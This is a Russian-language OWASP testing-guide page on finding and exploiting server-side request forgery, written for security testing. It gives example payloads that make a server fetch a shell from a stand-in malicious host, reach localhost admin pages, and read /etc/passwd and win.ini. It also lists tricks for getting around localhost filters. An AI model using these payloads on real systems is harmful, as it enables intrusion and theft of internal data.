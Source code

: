 ```yaml
---

layout: col-document
title: WSTG - Latest
tags: WSTG

---
```


{% include breadcrumb.html %}
# Тестирование подделки запроса на стороне сервера (SSRF)

|ID          |
|------------|
|WSTG-INPV-19|

## Обзор

Web-приложения часто взаимодействуют с внутренними или внешними ресурсами. Хотя вы можете ожидать, что обрабатывать отправляемые вами данные будет только предназначенный для этого ресурс, некорректно обработанные данные могут создать ситуацию, в которой возможны атаки путём инъекции. Одним из видов инъекций является подделка запросов на стороне сервера (SSRF). Успешная атака SSRF может предоставить злоумышленнику доступ к привилегированным действиям, внутренним службам или файлам в приложении или организации. В некоторых случаях это даже может привести к удалённому выполнению кода (RCE).

## Задачи тестирования

- Найти точки для инъекции SSRF.
- Протестировать, пригодны ли эти точки для эксплуатации.
- Оценить воздействие уязвимости.

## Как тестировать

При тестировании SSRF вы пытаетесь заставить целевой сервер неявно загружать или сохранять содержимое, которое может быть вредоносным. Самый распространённый тест — локальное и удалённое включение файлов. Есть ещё один аспект SSRF: доверительные отношения, которые часто возникают, когда сервер приложений может взаимодействовать с другими бэкенд-серверами, недоступными для пользователей напрямую. Эти серверы часто имеют немаршрутизируемые частные IP-адреса или ограничены определёнными хостами. Поскольку они защищены топологией сети, им часто не хватает более сложных элементов управления. Эти внутренние системы часто содержат чувствительные данные или функции.

Рассмотрим следующий запрос:

``` http
GET https://example.com/page?page=about.php
```

Вы можете протестировать этот запрос с полезными нагрузками, представленными ниже.

### Загрузить содержимое файла

```http
GET https://example.com/page?page=https://malicioussite.com/shell.php
```

### Обратиться к странице с ограниченным доступом

```http
GET https://example.com/page?page=http://localhost/admin
```

Или:

```http
GET https://example.com/page?page=http://127.0.0.1/admin
```

Используйте интерфейс обратной связи (англ.: loopback) для доступа к контенту, доступ к которому ограничен только хостом. Этот механизм подразумевает, что если у вас есть доступ к хосту, у вас также есть привилегии для прямого доступа к странице `admin`.

Такого рода доверительные отношения, при которых запросы, исходящие с локального компьютера, обрабатываются иначе, чем все остальные, часто делают SSRF критической уязвимостью.

### Извлечь локальный файл

```http
GET https://example.com/page?page=file:///etc/passwd
```

### Используемые HTTP-методы

Все приведенные выше полезные данные могут применяться к любому типу HTTP-запроса, а также могут быть вставлены в значения заголовков и cookie.

Одно важное замечание относительно SSRF с POST-запросами заключается в том, что SSRF также может проявляться вслепую, потому что приложение может сразу ничего и не выдавать. Вместо этого введённые данные могут использоваться в других функциях, таких как отчёты в формате PDF, обработка счетов-фактур или заказов и т.д., которые могут быть видны сотрудникам или персоналу, но не обязательно конечному пользователю или тестировщику.

Узнать больше о слепом SSRF можно [здесь](https://portswigger.net/web-security/ssrf/blind), или в [разделе ссылок](#ссылки).

### Генераторы PDF

В некоторых случаях сервер может конвертировать загруженные файлы в формат PDF. Попробуйте вставить элементы `<iframe>`, `<img>`, `<base>` или `<script>` или функцию CSS `url()`, указывающие на внутренние службы.

```html
<iframe src="file:///etc/passwd" width="400" height="400">
<iframe src="file:///c:/windows/win.ini" width="400" height="400">
```

### Распространённые пути обхода фильтра

Некоторые приложения блокируют ссылки на `localhost` и `127.0.0.1`. Это можно обойти с помощью:

- Использование альтернативного представления IP-адреса, которое эквивалентно `127.0.0.1`:
    - Десятичное: `2130706433`
    - Восьмеричное: `017700000001`
    - Сокращённая запись IP: `127.1`
- Обфускация строк
- Регистрация собственного домена, который разрешается в `127.0.0.1`

Иногда приложение допускает ввод, соответствующий только определённому выражению, например домену. Это можно обойти, если неправильно реализован парсер схемы URL, что может привести к следующим [семантическим атакам](https://datatracker.ietf.org/doc/html/rfc3986#section-7.6):

- использованию символа `@` для разделения информации о пользователе и хосте: `https://expected-domain@attacker-domain`;
- URL-фрагменты с помощью символа `#`: `https://attacker-domain#expected-domain`;
- URL-кодировка;
- фаззинг;
- сочетания из всего вышеперечисленного.

Дополнительные полезные нагрузки и методы обхода см. в разделе [Ссылки](#ссылки).

## Меры защиты

Известно, что SSRF — одна из самых сложных атак, которую невозможно отразить без использования списков разрешений (ACL), требующих указания конкретных IP- и URL-адресов. Подробнее о защите от SSRF см. в [Памятке по предотвращению подделки запросов на стороне сервера](https://cheatsheetseries.owasp.org/cheatsheets/Server_Side_Request_Forgery_Prevention_Cheat_Sheet.html).

## Ссылки

- [swisskyrepo: SSRF Payloads](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Request%20Forgery)
- [Reading Internal Files Using SSRF Vulnerability](https://medium.com/@neerajedwards/reading-internal-files-using-ssrf-vulnerability-703c5706eefb)
- [Abusing the AWS Metadata Service Using SSRF Vulnerabilities](https://blog.christophetd.fr/abusing-aws-metadata-service-using-ssrf-vulnerabilities/)
- [OWASP Server Side Request Forgery Prevention Cheatsheet](https://cheatsheetseries.owasp.org/cheatsheets/Server_Side_Request_Forgery_Prevention_Cheat_Sheet.html)
- [Portswigger: SSRF](https://portswigger.net/web-security/ssrf)
- [Portswigger: Blind SSRF](https://portswigger.net/web-security/ssrf/blind)
- [Bugcrowd: SSRF](https://www.bugcrowd.com/glossary/server-side-request-forgery-ssrf/)
- [Hackerone Blog: SSRF](https://www.hackerone.com/application-security/how-server-side-request-forgery-ssrf)
- [Hacker101: SSRF](https://www.hacker101.com/sessions/ssrf.html)
- [Общий синтаксис URI](https://datatracker.ietf.org/doc/html/rfc3986)

